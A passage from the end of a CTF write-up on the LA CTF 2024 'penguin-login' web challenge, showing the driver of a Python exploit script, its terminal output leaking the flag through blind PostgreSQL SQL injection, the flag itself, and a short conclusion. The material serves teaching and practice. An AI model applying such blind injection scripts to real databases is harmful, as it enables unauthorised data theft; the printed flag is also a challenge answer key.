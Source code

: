 ```python
        isLeakedSuccessfully = True
        return isLeakedSuccessfully, formattedFlag

if __name__ == '__main__':
    baseUrl = 'https://penguin.chall.lac.tf'
    exploit = Exploit(baseUrl)

    print('[*] Leaking the flag string length...')
    flagStringLength = exploit.leakFlagStringLength()
    if not flagStringLength:
        print('\n[-] Unable to find the correct flag string length')
        exit(0)

    print(f'\n[+] We found the correct flag string length: {flagStringLength}')

    print('[*] Leaking the flag...')
    isLeakedSuccessfully, formattedFlag = exploit.leakFlagData(flagStringLength)
    if not isLeakedSuccessfully:
        print(f'\n[-] The leaked flag length is not the same as the flag string length ({flagStringLength}). Leaked flag: {formattedFlag}')
        exit(0)

    print(f'\n[+] The flag has been fully leaked! Flag: {formattedFlag}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/penguin-login)-[2024.02.19|21:43:59(HKT)]
└> python3 exploit.py
[*] Leaking the flag string length...
[*] Length 4 returned boolean value True, but the length is same as the database's penguin name "peng"
[*] Length 7 returned boolean value True, but the length is same as the database's penguin name "emperor"
[*] Finding flag string length | Current length: 45
[+] We found the correct flag string length: 45
[*] Leaking the flag...
[*] Brute forcing character "0" | Current leaked flag: lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w}
[+] The flag has been fully leaked! Flag: lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}
```

- **Flag: `lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`**

## Conclusion

What we've learned:

1. PostgreSQL Blind-based SQL injection with conditional responses and filter bypass